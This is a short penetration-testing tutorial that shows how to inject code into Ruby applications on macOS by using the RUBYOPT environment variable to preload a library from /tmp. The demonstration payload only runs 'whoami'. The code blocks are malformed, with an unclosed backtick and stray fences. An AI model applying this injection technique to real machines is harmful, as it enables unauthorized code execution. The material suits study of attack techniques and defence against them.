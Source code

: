# macOS Ruby Applications Injection


## RUBYOPT

Using this env variable it's possible to **add new params** to **ruby** whenever it gets executed. Although the param **`-e`** cannot be used to specify ruby code to execute, it's possible to use the params **`-I`** and **`-r`** to add a new folder to the libraries to load path and then **specify a library to load**.

Create the library **`inject.rb`** in **`/tmp`**:

```ruby:inject.rb
puts `whoami
```
```
Create anywahere a ruby script like:

```ruby:hello.rb
puts 'Hello, World!'
```
```
Then make an arbitrary ruby script load it with:

```bash
RUBYOPT="-I/tmp -rinject" ruby hello.rb
```
```
Fun fact, it works even with param **`--disable-rubyopt`**:

```bash
RUBYOPT="-I/tmp -rinject" ruby hello.rb --disable-rubyopt
```
```



